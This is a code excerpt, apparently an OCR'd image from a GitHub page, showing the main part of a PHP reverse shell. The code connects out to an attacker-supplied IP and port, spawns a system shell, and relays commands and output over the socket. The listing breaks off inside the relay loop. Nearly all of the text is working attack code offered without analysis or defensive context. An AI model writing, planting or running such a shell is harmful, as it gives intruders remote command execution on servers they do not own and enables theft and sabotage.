 ```
  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
  }

  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");

  while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
      printit("ERROR: Shell connection terminated");
      break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
      printit("ERROR: Shell process terminated");
      break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
      if ($debug) printit("SOCK READ");
      $input = fread($sock, $chunk_size);
      if ($debug) printit("SOCK: $input");
      fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
      if ($debug) printit("STDOUT READ");
      $input = fread($pipes[1], $chunk_size);
      if ($debug) printit("STDOUT: $input");
```